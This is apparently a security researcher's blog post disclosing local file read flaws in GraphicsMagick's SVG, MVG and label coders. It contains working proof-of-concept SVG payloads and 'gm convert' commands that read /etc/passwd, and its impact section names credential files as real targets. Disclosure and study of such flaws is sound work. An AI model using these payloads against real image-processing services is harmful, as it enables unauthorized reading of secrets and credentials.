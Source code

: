 # Security of Data processing libraries Part 2


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Tragick

[ImageTragick](https://imagetragick.com/) - multiple vulnerabilities in ImageMagick. One of the vulnerabilities can lead to remote code execution (RCE) if you process user submitted images. The exploit for this vulnerability is being used in the wild. GraphicsMagick library successfully fixed RCE but what about another vulnerabilities? Let's take a look on exploit.svg used at CVE-2016-3717 and try to convert it with library.

```bash
gm convert exploit.svg output.png
```

```text
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

Library will return error `Unable to open file` but what if we will change coder to `label`? 

```bash
gm convert label:@/etc/passwd output.png
```

GraphicsMagick returns first line of file: `root:0:0:0:root:/root:/bin/bash`. So vulnerability exists and can be exploited on some coders. Let's take a look on Translate Text function. It have an interesting behavior: If text starts with '@' then try to replace it with the content of the file name which follows. 

```c
char *AmpersandTranslateText(const ImageInfo *image_info,
		Image *image, const char *formatted_text) {
/*
	If text starts with '@' then try to replace it with 
	the content of the file name which follows.
*/
  if ((*formatted_text == '@') && IsAccessible(formatted_text+1))
    {
      text=(char *) FileToBlob(formatted_text+1,&length,&image->exception);
      if (text == (char *) NULL)
        return((char *) NULL);
      TrimStringNewLine(text,length);
    }
  translated_text=TranslateText(image_info,image,text);
  if (text != (char *) formatted_text)
    MagickFreeMemory(text);

  return translated_text;
}
```

To exploit it malicious user shoud find all coders using it. Here we should take a little step back and return to Metadata. Please read the [Security of Data processing libraries Part 1](https://d0ge.github.io/data-processing-libraries-part-one/) first. Translate function requests in attribute text when the blob is not open. This is really gross since it is assumed that the attribute is supplied by the user and the user intends for translation to occur.  However, 'comment' and 'label' attributes may also come from an image file and may contain arbitrary text.  As a crude-workaround, translations are only performed when the blob is not open. Is it secure to check blob state? It was found that SVG coder can be used to exploit it. We will skip a lot of C code and let's take a look on pseudocode:
- XML Parser end work
- CloseBlob(image) 
- MVG delegate start it work
- function SetImageAttribute(image,"comment",svg_info.comment) writes comment и title attributes to image.
- To exploit vulnerability malicious user should convert SVG to GIF, JPEG thumbnails with metadata information.

### Arbitary file read on image metadata
```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" x="0" y="0" height="137px" width="137px"/></svg>
```
![Arbitary file read on image metadata](/images/imagemetadata.gif)

# MVG coder file read

Another interesting coder is MVG and image processing function

```c
case 'i':
{
if (LocaleCompare((char *) name,"image") == 0)
  {
  MVGPrintf(svg_info->file,"image Copy %g,%g %g,%g '%s'\n",
          svg_info->bounds.x,svg_info->bounds.y,svg_info->bounds.width,
          svg_info->bounds.height,svg_info->url);
  MVGPrintf(svg_info-&gt;file,"pop graphic-context\n");
  break;
  }
break;
}
```
What if malicious user can inject custom TextPrimitive inside ImagePrimitive at MVG coder. Let's take a look on SVG coder. When it reads `xlink:href` attribute single qout  `'` is not properly escaped and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file. 
Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

### Arbitary file read on SVG coder

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```


# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 

